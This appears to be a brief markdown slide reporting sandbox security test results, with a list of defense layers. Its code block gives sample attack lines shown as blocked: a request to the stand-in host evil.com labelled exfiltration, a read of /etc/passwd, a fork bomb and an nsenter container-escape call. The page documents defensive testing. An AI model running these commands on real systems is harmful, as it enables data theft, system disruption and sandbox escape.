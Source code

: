 ```yaml
---
title: "Security Test Results"
duration: 2
tags: ["security", "testing"]
---
```


## Security Test Results

### Attack Scenarios Blocked

```python
# Network exfiltration attempt
"urllib.request.urlopen('http://evil.com')"  # ❌ Blocked

# Filesystem access
"open('/etc/passwd').read()"  # ❌ Blocked

# Resource exhaustion
"while True: fork()"  # ❌ Terminated

# Container escape
"import os; os.system('nsenter')"  # ❌ No privileges
```

### Defense Layers
1. **Network**: Complete isolation
2. **Filesystem**: Read-only root
3. **Syscalls**: gVisor filtering  
4. **Resources**: Hard limits
5. **Monitoring**: Anomaly detection